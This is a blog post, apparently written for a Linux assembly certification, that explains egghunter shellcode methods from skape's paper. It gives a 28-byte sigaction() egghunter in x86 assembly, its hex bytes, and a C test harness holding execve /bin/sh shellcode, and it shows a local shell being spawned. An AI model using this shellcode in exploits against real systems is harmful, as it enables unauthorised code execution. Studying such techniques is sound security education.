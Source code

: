 ```yaml
---
title:  "[SLAE 3] Egghunter Shellcode"
categories: [SLAE]
---
```


![Logo](/assets/images/tux-root.png)

## Creating an egghunter shellcode

For the third assignment of the [SLAE](http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/) course I've studied different egghunter payloads. The starting reference paper for this is **skape**'s [Safely Searching Process Virtual Address Space](http://www.hick.org/code/skape/papers/egghunt-shellcode.pdf). 

I've implemented the 3 methods described in the paper:
* **access()** - Small and robust egghunter using _`access()`_ system call to check validity  of addresses. 
  * **Cons**: size is 39 bytes and the egg needs to be executable because after finding it, the execution jump before the egg and continues on.
* **access() revisited** - smaller (35 bytes), minor speed improvements, egg does not need to be executable. 
  * **Cons**: sets DF flag in case of failure (in very rare cases this could impact the running of the host application)
* **sigaction()** - even smaller (30 bytes), robust and very fast (validates 16 bytes at a time). 
  * **Cons**: some very rare odd failure situation described in detail in the paper.

For the purpose of this post, I'll detail my slightly modified version of the _`sigaction()`_ egghunter:
* **sigaction() reloaded** - the smallest version (__*only 28 bytes*__). I've replaced the double check for the egg with only one check. To avoid finding the egg in the comparison from the shellcode, I've applied a small transform before searching for it (_`inc eax`_ in this case, but could be any other 1 bytecode operation also - e.g. shifting bytes).

```c
global _start   

section .text
_start:
    or cx,0xfff             ; page allignment
next_addr:
    inc ecx                 ; Pointer to region to be validated
    push byte +0x43         ; sigaction() syscall number
    pop eax                 ; Syscall number in eax
    int 0x80                ; Execut ethe syscall
    cmp al,0xf2             ; Compare with EFAULT
    jz short _start         ; Go to next page
    mov eax, <EGG>          ; The egg
    inc eax                 ; Egg modification. Avoid first find from above!
    mov edi,ecx             ; Prepare for comparison
    scasd                   ; Compare
    jnz short next_addr     ; Jump to next address
    jmp edi                 ; Jump to shellcode
```

To test it I've used the following C program simulating a real payload:
```
[  filler  ] [  egghunter  ] [  garbage  ] [  shellcode  ]
```

```c
#include <stdio.h>
#include <string.h>
 
#define     EGG     "<EGG>"
 
unsigned char sled[] = "Some misc bytes here";
unsigned char egghunter[] = 
        "<EGGHUNTER>";
unsigned char garbage[] = "Garbage, mangled bytes, whatever";
// execve(/bin/sh,..) shellcode here 
unsigned char shellcode[] = EGG
        "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3"
                "\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80";
 
// Function pointer
typedef int (*func_ptr)();
 
void main() {
    printf("Egghunter length: %d bytes\n", strlen(egghunter));
    printf("Shellcode Length:  %d bytes\n", strlen(shellcode));
 
    ((func_ptr) egghunter)();
}
```

The egg is configurable, and the compilation takes place from a wrapper script: 
```bash
$ ./compile.sh 
Usage: compile.sh {4 chars EGG mark}
 E.g.: compile.sh W00T
$ ./compile.sh BUBU
  [*] Using egg  BUBU
  [*] (Modified) Egg hex:, 0x55425542
  [+] Replace egg with, BUBU
  [+] Assembling egghunter
  [+] Linking egghunter
  [*] Egghunter:
\x66\x81\xc9\xff\x0f\x41\x6a\x43\x58\xcd\x80\x3c\xf2\x74\xf1\xb8\x42\x55\x42\x55\x40\x89\xcf\xaf\x75\xeb\xff\xe7
  [+] Compile shellcode tester
  [+] House cleaning
  [+] Done! run ./shellcode
$ ./shellcode
Egghunter length: 28 bytes
Shellcode Length:  29 bytes
$ whoami
liv
```

##

The complete source files and scripts mentioned in this post can be found in my [SLAE Git repository](https://github.com/livz/slae).

**_This blog post has been created for completing the requirements of the [SecurityTube Linux Assembly Expert certification](www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)_**
